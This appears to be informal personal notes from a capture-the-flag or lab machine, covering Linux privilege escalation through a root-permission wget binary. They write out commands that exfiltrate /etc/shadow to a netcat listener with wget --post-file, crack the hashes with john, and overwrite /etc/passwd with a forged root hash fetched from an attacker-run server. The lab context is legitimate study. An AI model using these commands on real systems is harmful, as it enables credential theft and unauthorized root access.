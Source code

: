 export IP=10.10.10.10
nmap -sn $IP
pgrep openvpn = On Unix-like operating systems, the pgrep command searches for processes currently running on the system, based on a complete or partial process name, or other specified attributes.

it has unapp tamplate

/usr/bin/wget is in root permission

__GTFOBins__
go to gtfobins and check abt wget

copy file
scp -i rsafile /opt/linpeas.sh jassie@10.10.10.10:/dev/shm

download psswd and shadow
/usr/bin/wget --post-file=/etc/shadow 10.10.10.10
nc -lvnp 80(since it wget)

unshadow passwd and shadow
unshadow passwd shadow > unshadow.txt

crack it
john -wordlist=rockyou.txt unshadow.txt

__john hammond method__
python
import crypt
crypt.crypt("ourpasswd","none")
_copy the generated passwd and paste it in root /etc/passwd_
(clear x in :x: and paste the new generated passwd)

_othermethod = openssl passwd passwdtexthere_- and do the same

upload it to /etc/passwd
(first create a real copy of /etc/passwd in /dev/shm)
start a python server 

in victim machine:
wget http://10.10.10.10:8000/passwd -O /etc/passwd

__method was in comment__
edit /etc/sudoers

search SUID flag

